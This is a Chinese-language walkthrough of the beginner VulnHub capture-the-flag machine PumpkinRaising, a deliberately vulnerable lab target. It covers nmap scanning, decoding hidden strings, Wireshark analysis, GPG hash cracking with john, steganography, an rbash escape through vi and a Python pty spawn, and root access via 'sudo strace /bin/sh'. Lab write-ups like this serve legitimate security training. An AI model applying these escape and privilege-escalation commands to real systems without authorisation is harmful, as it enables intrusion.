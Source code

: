 # PumpkinRaising-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkinraising,324/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file.

**知识点**
- 字符加解密
- 流量分析
- GPG爆破
- rbash逃逸
- 图片隐写

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/1.png)

排除法,去掉自己、宿主机、网关,这里 `192.168.141.129` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.129
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/2.png)

web 和 ssh,先看看 web

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/3.png)

源码中有段 base64,解出来不是关键内容

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/4.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/5.png)

同时有个链接 http://192.168.141.129/pumpkin.html ,查看下里面源码

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/7.png)

里面这段是 base32,我拿64解了半天

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/8.png)

下载这个流量文件,wireshark 分析一下，Ctrl+Alt+Shift+T,切换跟踪 tcp 流

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/9.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/10.png)

其中提到了种子 ID 50609,先记着,之后应该会用的到。

同时 http://192.168.141.129/pumpkin.html 页面最底端还有一串字符

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/14.png)

hex 解一下

```
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454

Do, remember to inform Jack to plant all 4 seeds in the same order.
```

种子 ID:96454

在 robots 文件中，发现它提供了一些信息,访问 http://192.168.141.129/robots.txt

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/6.png)

下面3个url都有内容
- http://192.168.141.129/underconstruction.html
- http://192.168.141.129/hidden/note.txt
- http://192.168.141.129/seeds/seed.txt.gpg

先看下 note.txt

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/11.png)

看上去像是账号密码,ssh 试了下，都无法登录

说不定可以用来解 seed.txt.gpg,试下
```
wget http://192.168.141.129/seeds/seed.txt.gpg
gpg --decrypt seed.txt.gpg
```

解不了,尝试用 john 跑出来
```bash
gpg2john seed.txt.gpg > hash
john hash
john --wordlist=wordlist.txt hash   # 随便找了字典尝试,没有跑出来
```

搜了下别人的 walkthrough,密钥是 SEEDWATERSUNLIGHT ,是首页下面三个单词的组合...^w^

输入密钥看下内容

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/12.png)

下面部分是莫斯电码

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/13.png)

```
YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
```

种子 ID : 69507

访问 http://192.168.141.129/underconstruction.html

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/15.png)

按小标题的意思,可能有内容在图片中,做到图片隐写了

一开始我使用 uc.gif,然后发现其实是 http://192.168.141.129/images/jackolantern.gif

工具地址 : https://stegosuite.org/ ,密码是之前 note.txt 中的 Qn@F5zMg4T

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/16.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/17.png)

种子ID : 86568

到目前为止,有4个种子
```
50609
96454
69507
86568
```

在 note.txt 中有个 `goblin : 79675-06172-65206-17765`

这4个种子应该也可以这么组合,说不定是 SSH 的密码,带 `-` 和不带 `-` 都试试

最后结果是
```
jack: 69507506099645486568
```

连接上去是个 rbash

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/18.png)

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# 提权

搜集信息,尝试提权
```
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/19.png)

参考 strace 提权 https://gtfobins.github.io/gtfobins/strace/
```bash
sudo strace -o /dev/null /bin/sh
```

提权成功

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/Mission-Pumpkin/PumpkinRaising/20.png)

